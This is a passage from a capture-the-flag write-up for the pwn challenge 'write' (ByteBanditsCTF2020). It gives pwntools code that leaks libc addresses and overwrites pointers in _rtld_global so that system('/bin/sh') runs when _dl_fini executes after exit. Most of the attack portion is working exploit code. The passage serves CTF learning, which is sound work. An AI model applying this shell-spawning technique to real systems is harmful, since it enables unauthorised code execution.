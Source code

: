 ```python
ru('puts: ')
puts = eval(rc(14))
ru('stack: ')
stack = eval(rc(14))
libcbase = puts - libc.sym['puts']
info_addr('libcbase',libcbase)
```

#### overwrite ptr in `_dl_fini`

there are 2 pointer used in `_dl_fini+98` and `_dl_fini+105`

> the program will execute to `_dl_fini` after `exit` called

![](http://image.taqini.space/img/20200414014802.png)

all of them are in `_rtld_golbal` :

```python
ptr = libcbase+0x619f60 #0x239f68
info_addr('ptr',ptr)
system = libcbase+libc.sym['system']
info_addr('system',system)
rdi = libcbase+0x619968 #0x239968
info_addr('rdi',rdi)
```

overwrite `_rtld_golbal+2312` with `/bin/sh` and overwrite `_rtld_golbal+3834` with address of `system`:

```python
sl('w')
sl(str(ptr))
sl(str(system))

sl('w')
sl(str(rdi))
sl(str(u64('/bin/sh\0')))
```

### getshell

`system("/bin/sh")` will be executed after after call `exit` 

```python
sl('q')
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/write) 


## fmt-me
